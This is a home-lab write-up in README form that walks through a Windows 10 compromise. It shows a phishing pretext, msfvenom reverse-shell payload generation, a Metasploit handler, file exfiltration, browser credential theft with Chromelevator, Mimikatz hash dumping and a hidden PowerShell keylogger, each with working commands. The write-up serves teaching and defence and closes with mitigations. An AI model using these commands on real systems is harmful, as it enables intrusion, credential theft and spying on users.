




# 🔐 Post-Compromise Operations on Windows 10

> A complete, documented home laboratory exercise demonstrating the full attack lifecycle — from initial phishing access through post-exploitation on a compromised Windows 10 host.

<div align="center">


</div>

---

## ⚠️ IMPORTANT DISCLAIMER

> **EDUCATIONAL PURPOSES ONLY**
>
> This repository documents a controlled laboratory exercise performed in an **isolated VMware environment**. All systems, credentials, and data are **test-only / dummy material**.
>
> **Unauthorized access to computer systems is illegal and unethical.** The tools and techniques demonstrated here are dual-use security tools. They should only be used against systems you **own** or have **explicit written permission** to test.
>
> The author assumes no liability for any misuse of this information. Always comply with applicable laws and ethical standards.

---

## 📑 Table of Contents

- [🎯 Project Overview](#-project-overview)
- [🏗 Lab Architecture](#-lab-architecture)
- [🔪 Complete Attack Kill Chain](#-complete-attack-kill-chain)
- [📋 Phase 1: Initial Access via Phishing Simulation](#-phase-1-initial-access-via-phishing-simulation)
- [📦 Phase 2: Malicious Payload Generation](#-phase-2-malicious-payload-generation)
- [🔌 Phase 3: Establishing Reverse Shell](#-phase-3-establishing-reverse-shell)
- [🔍 Phase 4: Host Reconnaissance](#-phase-4-host-reconnaissance)
- [📊 Phase 5: System Enumeration with WinPEAS](#-phase-5-system-enumeration-with-winpeas)
- [📁 Phase 6: Document Discovery & Extraction](#-phase-6-document-discovery--extraction)
- [🔑 Phase 7: Browser Credential Extraction](#-phase-7-browser-credential-extraction)
- [💀 Phase 8: Credential Dumping with Mimikatz](#-phase-8-credential-dumping-with-mimikatz)
- [⌨️ Phase 9: Keylogger Demonstration](#-phase-9-keylogger-demonstration)
- [🛠 Tools & Technologies](#-tools--technologies)
- [📸 Screenshot Evidence Index](#-screenshot-evidence-index)
- [💡 Lessons Learned](#-lessons-learned)
- [🛡 Security Recommendations](#-security-recommendations)
- [📝 Author](#-author)

---

## 🎯 Project Overview

This module demonstrates how an attacker operates **after obtaining remote command execution** on a compromised Windows host. What makes this lab realistic is the **complete attack lifecycle**: starting with a social engineering phishing campaign, delivering a malicious payload, establishing a reverse shell, and then performing full post-exploitation activities.

### ✅ Objectives Accomplished

| Objective | Status |
|-----------|--------|
| 🎣 Initial access via phishing simulation | ✅ Completed |
| 🔌 Establish reverse shell (Meterpreter) | ✅ Completed |
| 🔍 Host reconnaissance (user, OS, IP, domain) | ✅ Completed |
| 📁 Extract sensitive documents from victim | ✅ Completed |
| 🔑 Recover browser-stored credentials | ✅ Completed |
| 💀 Dump Windows credentials with Mimikatz | ✅ Completed |
| ⌨️ Deploy and demonstrate keylogger | ✅ Completed |
| 📊 Automated system enumeration (WinPEAS) | ✅ Bonus |

---

## 🏗 Lab Architecture

```
                          VMware ESXi
                                |
                    Isolated Lab Network (192.168.100.0/24)
                                |
                +---------------+---------------+
                |                               |
                v                               v
         Kali Linux                       Windows 10 Pro
    (Attacker / Listener)             (Victim / Compromised)
     192.168.100.107                   192.168.100.105
                |                               |
                |        Reverse Shell          |
                |    (Outbound from Victim)     |
                +<------------------------------+
```

| System | Role | IP Address | OS |
|--------|------|------------|----|
| **Kali Linux** | Attacker / Control Host | `192.168.100.107` | Kali Linux (Latest) |
| **Windows 10** | Victim Host | `192.168.100.105` | Windows 10 Pro 22H2 (Build 19045) |

---

## 🔪 Complete Attack Kill Chain

```
┌─────────────────────────────────────────────────────────────────────┐
│                    INITIAL ACCESS (Phase 1)                         │
│  ┌─────────────┐     ┌──────────────┐     ┌────────────────────┐   │
│  │  Phishing   │────▶│  GitHub Repo │────▶│  Victim Downloads  │   │
│  │    Email    │     │   (Payload)  │     │  & Extracts free.exe│   │
│  └─────────────┘     └──────────────┘     └─────────┬──────────┘   │
└──────────────────────────────────────────────────────┼──────────────┘
                                                       │
┌──────────────────────────────────────────────────────┼──────────────┐
│                    PAYLOAD (Phase 2)                 │              │
│  ┌─────────────┐     ┌──────────────┐                │              │
│  │  Msfvenom   │────▶│  free.exe    │────────────────┘              │
│  │  Payload    │     │  (Reverse    │                               │
│  │  Creation   │     │   TCP Shell) │                               │
│  └─────────────┘     └──────────────┘                               │
└─────────────────────────────────────────────────────────────────────┘
                                                       │
┌──────────────────────────────────────────────────────┼──────────────┐
│                  COMMAND & CONTROL (Phase 3)         │              │
│  ┌─────────────┐     ┌──────────────┐                │              │
│  │  Metasploit │◀────│  free.exe    │◀───────────────┘              │
│  │   Listener  │     │   Executes   │                               │
│  └──────┬──────┘     └──────────────┘                               │
│         │                                                           │
│         ▼                                                           │
│  ┌──────────────────────────────────────────┐                       │
│  │    METERPRETER SESSION ESTABLISHED       │                       │
│  │    (Attacker now controls victim)        │                       │
│  └──────────────────────┬───────────────────┘                       │
└─────────────────────────┼───────────────────────────────────────────┘
                          │
                          ▼
┌─────────────────────────────────────────────────────────────────────┐
│                  POST-EXPLOITATION (Phases 4-9)                     │
│                                                                     │
│  Phase 4 ──▶ Reconnaissance        (whoami, ipconfig, sysinfo)      │
│  Phase 5 ──▶ WinPEAS Enumeration   (Automated system audit)         │
│  Phase 6 ──▶ Document Extraction   (Desktop files → attacker)       │
│  Phase 7 ──▶ Browser Credentials   (Chromelevator → Chrome creds)   │
│  Phase 8 ──▶ Credential Dumping    (Mimikatz → NTLM hashes)         │
│  Phase 9 ──▶ Keylogger             (PowerShell → keystroke capture) │
│                                                                     │
└─────────────────────────────────────────────────────────────────────┘
```

---

## 📋 Phase 1: Initial Access via Phishing Simulation

To make the scenario realistic, the attack began with a **spear-phishing email** designed to socially engineer the victim into downloading and executing the malicious payload.

### The Phishing Email

The email claimed the victim had won an **iPhone 16 Pro (256GB)** valued at $1,199 in a "Summer Tech Giveaway 2026." It used urgency (48-hour deadline), authority impersonation ("Apple Promotions Team"), and step-by-step instructions to lower suspicion.

**Social Engineering Tactics:**
- 🎁 **Greed/Desire:** Free high-value product as bait
- ⏰ **Urgency:** 48-hour redemption deadline
- 🏢 **Authority:** Spoofed "Apple Promotions Team" sender
- 📝 **Specificity:** Fake reference numbers, prize IDs, and clear instructions
- 🔗 **Hosting:** Payload hosted on public GitHub for appearance of legitimacy

**Victim Instructions in Email:**
1. Download "prize redemption package" from the link
2. Extract files with password: `iphone2026`
3. Run `free.exe` to "generate activation token"


*Figure 1: Phishing email sent to victim claiming an iPhone 16 Pro prize*

### Payload Hosting on GitHub

The malicious archive was hosted on a public GitHub repository named `prize-claim-tool`, adding a layer of perceived legitimacy.


*Figure 2: Public GitHub repository hosting the malicious `claim_redemption_form.zip`*

---

## 📦 Phase 2: Malicious Payload Generation

### Payload Creation with Msfvenom

A **Meterpreter reverse TCP shell** payload was generated on the Kali Linux attacker machine using `msfvenom`. This payload, when executed, establishes an outbound connection back to the attacker.

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp \
  LHOST=192.168.100.107 \
  LPORT=4444 \
  -f exe -o free.exe
```

**Payload Specifications:**
| Parameter | Value |
|-----------|-------|
| Payload Type | `windows/x64/meterpreter/reverse_tcp` |
| Architecture | x64 (64-bit Windows) |
| LHOST | `192.168.100.107` (Attacker IP) |
| LPORT | `4444` (Listening Port) |
| Payload Size | 510 bytes |
| Final EXE Size | 7,168 bytes |
| Output File | `free.exe` |


*Figure 3: Msfvenom generating the malicious reverse shell payload*

### Payload Packaging

The payload was packaged into a **password-protected ZIP archive** to evade basic email filters and match the phishing email narrative.

```bash
zip --password "iphone2026" claim_redemption_form.zip free.exe
```


*Figure 4: Creating password-protected ZIP archive containing the payload*

### Victim Side: Extraction

Following the email instructions, the victim extracted the archive using the provided password `iphone2026`, revealing `free.exe`.


*Figure 5: Victim extracting the password-protected ZIP on Windows 10*

---

## 🔌 Phase 3: Establishing Reverse Shell

### Metasploit Listener Configuration

Before the victim executed the payload, the attacker configured Metasploit's multi-handler to listen for the incoming reverse shell connection.

```bash
msfconsole
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.100.107
set LPORT 4444
exploit
```


*Figure 6: Metasploit multi/handler configured and listening on port 4444*

### Meterpreter Session Established

When the victim executed `free.exe`, the payload activated and called back to the attacker. A **Meterpreter session was successfully opened**, granting full remote command execution.

**Session Details:**
- **Session ID:** 1
- **Connection:** `192.168.100.107:4444` ← `192.168.100.105:51542`
- **User Context:** `DESKTOP-1GS67M5\PC1`
- **Architecture:** x64/windows


*Figure 7: Meterpreter session established and tools being uploaded to the victim*

---

## 🔍 Phase 4: Host Reconnaissance

The first post-compromise activity was gathering **situational awareness** about the compromised system.

### Commands Executed & Findings

| Command | Purpose | Key Finding |
|---------|---------|-------------|
| `whoami` | Current user | `DESKTOP-1GS67M5\PC1` |
| `ipconfig` | Network config | IPv4: `192.168.100.105` |
| `sysinfo` | System details | Windows 10 22H2, Build 19045, x64 |
| `Get-CimInstance Win32_ComputerSystem.Domain` | Domain check | `WORKGROUP` (not domain-joined) |

**Additional Details:**
- **Hostname:** `DESKTOP-1GS67M5`
- **Subnet Mask:** `255.255.255.0`
- **Default Gateway:** `192.168.100.1`
- **System Language:** `en-US`
- **Logged On Users:** 2


*Figure 8: Reconnaissance results — user, network, and OS information*

---

## 📊 Phase 5: System Enumeration with WinPEAS

**WinPEAS** (Windows Privilege Escalation Awesome Script) was used to perform automated, comprehensive system enumeration beyond basic manual commands.

### Key Enumeration Results

| Category | Finding |
|----------|---------|
| **OS Name** | Microsoft Windows 10 Pro |
| **OS Version** | 10.0.19045 Build 19045 |
| **System Type** | x64-based PC |
| **Edition** | Professional |
| **Release ID** | 2009 |
| **Processors** | 2 |
| **Time Zone** | UTC-08:00 Pacific Time |
| **Is Virtual Machine** | ✅ True (confirmed lab) |
| **High Integrity** | ❌ False (not elevated) |
| **Part of Domain** | ❌ False |

**Areas Enumerated:**
- User information & group memberships
- Current privileges & token capabilities
- Running services & configurations
- Environment variables
- Network configuration & connections
- Security settings & policies
- Installed patches & hotfixes
- Potential privilege escalation vectors


*Figure 9: WinPEAS output showing detailed Basic System Information*

---

## 📁 Phase 6: Document Discovery & Extraction

### File Discovery

The attacker enumerated the victim's Desktop directory — a common location for user documents.

```meterpreter
cd C:\\Users\\PC1\\Desktop
dir
```

**Discovered Items:**
- 📁 `asset files/` — Business & real estate information
- 📁 `finance files/` — Financial documents
- 📄 `desktop.ini` — Windows configuration
- 🔗 `Microsoft Edge.lnk` — Browser shortcut

### Document Exfiltration

All discovered files were downloaded from the compromised host to the attacker's machine.

```meterpreter
download C:\\Users\\PC1\\Desktop /home/butch
```

**Successfully Exfiltrated:**
- `asset files/businessinfo.txt`
- `asset files/realestateinfo.txt`
- `finance files/` (full directory)
- `desktop.ini`
- `Microsoft Edge.lnk`

**Destination:** `/home/butch/` on Kali Linux attacker


*Figure 10: Meterpreter downloading Desktop contents from victim to attacker machine*

---

## 🔑 Phase 7: Browser Credential Extraction

### Tool: Chromelevator

**Chromelevator** is a Chrome credential recovery tool that uses direct syscall-based reflective hollowing to bypass protections and extract browser-stored data.

### Step-by-Step Execution

**1. Tool Preparation (Attacker Side)**
```bash
cd Downloads
unzip chrome-injector-v0.20.0.zip
```


*Figure 11: Downloading and unzipping Chromelevator on Kali Linux*

**2. Upload to Victim**
```meterpreter
upload /home/butch/Downloads/chromelevator_x64.exe C:\\Windows\\Temp
```


*Figure 12: Confirming Chromelevator upload to `C:\Windows\Temp`*

**3. Execute Chromelevator**
```cmd
chromelevator_x64.exe chrome -o labrat
```

**Extraction Results:**
| Item | Count |
|------|-------|
| Chrome Version | `152.0.7977.76` |
| Profiles Found | 1 (Default) |
| 🍪 Cookies Extracted | 72 |
| 🔐 Passwords Extracted | 1 |
| 🎫 Tokens Extracted | 1 |


*Figure 13: Chromelevator executing and extracting Chrome credentials*

**4. Recover Credentials via Meterpreter**
```meterpreter
cd C:\\Windows\\Temp\\labrat\\Chrome\\Default
cat passwords_account.json
```

**Recovered Laboratory Credential:**
- **URL:** `https://gmail.com/`
- **Username:** `testingpen7@gmail.com`
- **Password:** `P@ssw0rd090681`


*Figure 14: Reading extracted Chrome credentials from the JSON output file*

---

## 💀 Phase 8: Credential Dumping with Mimikatz

### Mimikatz Overview

**Mimikatz** is a post-exploitation tool that extracts authentication material from Windows LSASS memory. It demonstrates the risk of credential theft when an attacker gains sufficient privileges.

### Commands Executed

```cmd
mimikatz.exe
privilege::debug
sekurlsa::logonpasswords
```

- `privilege::debug` — Requests debug privileges required to access LSASS
- `sekurlsa::logonpasswords` — Extracts credential material from memory

### Results

**User Session:** `PC1` on `DESKTOP-1GS67M5`

| Provider | Credential Material |
|----------|---------------------|
| **msv (Primary)** | NTLM & SHA1 password hashes extracted |
| **tspkg** | Password: (null) — protected |
| **wdigest** | Password: (null) — disabled by default on Win10 |
| **kerberos** | Password: (null) — protected |

**Extracted Password Hashes:**
- **NTLM:** `25accfc9cdecc45a3029075fc13afc36`
- **SHA1:** `fe34fa0e846bf03de53bf7c21849d7fd92cbe103`

> 💡 **Security Note:** Modern Windows protections (WDigest disabled, Credential Guard) prevented plaintext password recovery, but NTLM hashes were still extractable — these can be used in pass-the-hash attacks or cracked offline.


*Figure 15: Mimikatz `privilege::debug` and `sekurlsa::logonpasswords` execution*


*Figure 16: Mimikatz output showing extracted NTLM and SHA1 password hashes*

---

## ⌨️ Phase 9: Keylogger Demonstration

### PowerShell Keylogger

A custom **PowerShell keylogger script** (`revshell.ps1`) was deployed to demonstrate real-time keyboard input capture on the compromised host.

**Deployment Command:**
```powershell
powershell.exe -ExecutionPolicy Bypass -WindowStyle Hidden -File C:\Windows\Temp\revshell.ps1
```

**Script Features:**
- Runs hidden (no visible window)
- Bypasses PowerShell execution policy
- Writes keystrokes to `C:\Lab\keylog.txt`
- Instant write (no buffering)
- Supports commands: `tools`, `keys`, `keyon`, `keyoff`, `exit`


*Figure 17: PowerShell keylogger being deployed and activated*

### Dummy Input Test

**Only laboratory dummy input was used** — no real credentials captured.

**Test Input Typed in Notepad:**
```
testing testing 123
```


*Figure 18: Dummy test input typed into Notepad on the victim machine*

### Keystroke Retrieval

The attacker retrieved the captured keystrokes through the reverse shell:

```cmd
keys
```

**Captured Output:**
```
notepadtedtesting testing 123
```

The keylogger successfully captured the test input, demonstrating how an attacker can monitor user activity in real-time.


*Figure 19: Successfully retrieving captured keystrokes from the victim*

---

## 🛠 Tools & Technologies

| Category | Tools |
|----------|-------|
| **Payload Generation** | Metasploit `msfvenom` |
| **Command & Control** | Metasploit Framework (`msfconsole`), Meterpreter |
| **Reconnaissance** | `whoami`, `ipconfig`, `sysinfo`, PowerShell |
| **Automated Enumeration** | WinPEAS |
| **Browser Credentials** | Chromelevator v0.20.0 |
| **Credential Dumping** | Mimikatz 2.2.0 |
| **Keylogging** | Custom PowerShell Script |
| **Network Utilities** | Netcat (`nc`) |
| **File Archiving** | `zip` (password-protected) |
| **Payload Hosting** | GitHub Public Repository |

---

## 📸 Screenshot Evidence Index

| # | Filename | Description | Figure Reference |
|---|----------|-------------|------------------|
| 1 | `phishingemailsample.png` | Phishing email (iPhone prize scam) | Figure 1 |
| 2 | `FREE.EXE LINK.png` | GitHub repo hosting malicious payload | Figure 2 |
| 3 | `msfvenom.png` | Msfvenom payload generation | Figure 3 |
| 4 | `free.exezipfile.png` | Password-protected ZIP packaging | Figure 4 |
| 5 | `unzippingmaliciousshell.png` | Victim extracting payload | Figure 5 |
| 6 | `msfconsole.png` | Metasploit listener configuration | Figure 6 |
| 7 | `uploading chromelev and ps1 script to windows.png` | Meterpreter session & tool upload | Figure 7 |
| 8 | `sysinfo and ipconfig.png` | System reconnaissance results | Figure 8 |
| 9 | `winPeas Basic info.png` | WinPEAS system enumeration | Figure 9 |
| 10 | `extract documents.png` | Document extraction via Meterpreter | Figure 10 |
| 11 | `downloaded and unzipping chromelevator.png` | Chromelevator tool preparation | Figure 11 |
| 12 | `chromelev directory confirmed.png` | Chromelevator upload confirmation | Figure 12 |
| 13 | `executing chromelev.png` | Chromelevator execution & results | Figure 13 |
| 14 | `chrome password retrieve.png` | Chrome credential recovery | Figure 14 |
| 15 | `mimikatz1.png` | Mimikatz command execution | Figure 15 |
| 16 | `mimikatz2.png` | Mimikatz hash extraction results | Figure 16 |
| 17 | `ps1 script for keylogger.png` | PowerShell keylogger deployment | Figure 17 |
| 18 | `windows keylog test.png` | Dummy keylogger test input | Figure 18 |
| 19 | `keylogs retrieve.png` | Keystroke retrieval results | Figure 19 |

---

## 💡 Lessons Learned

### Key Takeaways from This Lab

1. **Initial access is just the beginning** — A reverse shell is the starting line, not the finish line. Post-exploitation is where the real damage occurs.

2. **Defense-in-depth is essential** — No single control stops all attacks. The phishing email bypassed email filters because the payload was hosted externally on GitHub.

3. **Users are the weakest link** — Even in a lab setting, the phishing email's social engineering tactics (urgency, greed, authority) were effective at convincing the "victim" to take action.

4. **Modern Windows protections work** — WDigest being disabled by default and other protections prevented plaintext password recovery via Mimikatz, though hashes were still extractable.

5. **Browser-stored credentials are a high-value target** — Tools like Chromelevator demonstrate why enterprise password managers are preferable to browser-based credential storage.

6. **Keyloggers are stealthy and powerful** — A simple PowerShell script can capture all user input, including credentials that might not be stored anywhere else.

---

## 🛡 Security Recommendations

### Against Phishing
- 📧 Deploy email security gateways with attachment sandboxing
- 🧑‍🏫 Conduct regular security awareness training
- 🔐 Enable multi-factor authentication (MFA) everywhere
- 🌐 Implement URL filtering and DNS security

### Endpoint Protection
- 🛡 Deploy EDR/XDR solutions to detect Meterpreter and Mimikatz behavior
- 📜 Enable PowerShell script block logging and constrained language mode
- 🔒 Enable Windows Defender Credential Guard to protect LSASS
- 📦 Implement application whitelisting to block unauthorized executables
- 🔄 Keep systems fully patched and updated

### Credential Security
- 🔑 Use enterprise password managers instead of browser storage
- 🚫 Implement LAPS (Local Administrator Password Solution)
- 🔐 Restrict and protect privileged domain accounts
- 📋 Audit and monitor for LSASS memory access attempts

### Detection & Monitoring
- 👁 Monitor for unusual outbound connections (reverse shell indicators)
- 📊 Centralize log collection and implement SIEM solutions
- 🚨 Alert on PowerShell execution of suspicious scripts
- 🔍 Implement file integrity monitoring on critical system directories

---

## 📝 Author

**Bryll Umangay**

*Cybersecurity Laboratory Exercise*  
*Post-Compromise Operations Module*

---

<div align="center">

### 🎓 **EDUCATIONAL PURPOSES ONLY — USE RESPONSIBLY**

</div>
